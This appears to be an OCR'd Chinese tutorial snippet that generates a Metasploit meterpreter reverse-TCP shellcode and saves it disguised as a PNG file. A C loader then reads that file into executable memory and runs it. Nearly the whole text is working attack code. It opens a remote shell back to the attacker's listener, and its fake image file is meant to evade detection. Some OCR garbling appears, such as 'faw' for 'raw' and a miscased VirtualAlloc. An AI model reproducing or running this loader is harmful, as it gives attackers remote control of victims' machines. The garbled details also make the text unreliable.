 	msf生成图片格式
	>msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.1 LPORT=11111 -f faw -o /root/1.png
	生成解决方案即可。
	#define _CRT_SECURE_NO_WARNINGS
	#include<Windows.h> 
	#include<stdlib.h> 
	#include<stdio.h> 
	int main(void)
	{
		FILE* fp; 
		size_t size;
		unsigned char* buffer;
		fp = fopen("1.png","rb"); 
		fseek(fp,0,SEEK_END);
		size =ftell(fp); 
		fseek(fp, 0, SEEK_SET);
		buffer =(unsigned char*)malloc(size); 
		fread(buffer, size, 1, fp);
		void* exec = Virtualalloc(0, size, MEM_COMMIT,PAGE_EXECUTE_READWRITE); 
		memcpy(exec, buffer, size);
		((void(*)()) exec)(); 
		return 0;
	}
